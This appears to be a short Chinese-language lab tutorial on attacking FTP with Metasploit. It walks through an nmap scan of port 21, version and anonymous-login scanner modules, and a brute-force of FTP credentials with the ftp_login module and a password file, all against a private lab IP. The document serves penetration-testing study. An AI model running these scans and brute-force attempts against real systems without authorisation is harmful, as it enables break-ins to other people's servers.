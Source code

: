 # Metasploit-FTP


msfconsole

nmap -p 21 192.168.78.165 //ftp

search ftp_version 检索ftp服务相关漏洞

use auxiliary/scanner/ftp/ftp_version 使用检索到的ftp相关漏洞利用模块

show options

set rhosts 192.168.78.165

run



---



back 退出当前漏洞利用模块返回上一层，如下图所示。

search /ftp/an 查看ftp相关漏洞，如下图所示进行模糊查询。

use auxiliary/scanner/ftp/anonymous

show options

set rhosts 192.168.78.165

run


---
##暴力破解

获取到FTP Banner ：Microsoft FTP Service\x0d\x0a

search ftp_login 检索Metasploit（msf）框架对于ftp_login的漏洞模块，


use auxiliary/scanner/ftp/ftp_login

show options

RHOSTS:受害者主机IP

THREADS：线程数

USERNAME:FTP用户名

PASS_FILE:密码文件

set rhosts 192.168.78.165

set username test1

set pass_file /root/pass.txt

set threads 5

show options

run

ftp IP(ftp 192.168.78.165)
